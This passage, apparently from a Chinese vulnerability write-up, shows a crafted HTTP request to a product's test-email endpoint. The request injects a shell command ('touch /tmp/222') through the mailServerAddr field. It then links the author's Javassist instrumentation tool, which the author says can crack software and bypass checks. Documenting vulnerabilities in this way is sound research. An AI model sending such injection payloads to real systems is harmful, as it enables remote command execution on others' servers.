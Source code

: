 ```java
        }
    }
```

发送数据包：

```java
POST /UniEx/noticeConfig/testNoticeEmailAction.htm HTTP/1.1
Host: 192.168.117.100
Cache-Control: max-age=0
Cookie: JSESSIONID=F9DA84D287041E1F8E09234CAA3EAB58;
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Referer: https://192.168.117.100/UniEx/login.jsp
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

random=123&mailSendPwd=123&mailServerAddr=;touch%20/tmp/222&mailServerPort=123
```

### 思考

这款产品使用了javassist的动态执行技术，但是java始终还是java，我们只需要hook或者针对它最上层的代码进行研究即可，于是我根据本次漏洞挖掘，编写了一个工具：[Rvn0xsy/DumperAnalyze: 通过JavaAgent与Javassist技术对JVM加载的类对象进行动态插桩，可以做一些破解、加密验证的绕过等操作 (github.com)](https://github.com/Rvn0xsy/DumperAnalyze)

通过JavaAgent与Javassist技术对JVM加载的类对象进行动态插桩，可以做一些破解、加密验证的绕过等操作。